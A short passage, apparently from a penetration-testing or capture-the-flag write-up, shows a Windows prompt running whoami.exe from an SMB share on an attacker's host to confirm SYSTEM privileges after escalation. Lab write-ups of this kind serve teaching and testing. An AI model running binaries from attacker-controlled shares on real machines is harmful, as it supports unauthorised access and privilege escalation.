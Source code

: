 Now I’ll run it and see I’m system:

```

C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe
NT AUTHORITY\SYSTEM

```

Of course there are other ways I could check, like having access to write in certain places (`system32` for example). Getting `whoami.exe` is certainly one of the easiest and most definitive methods.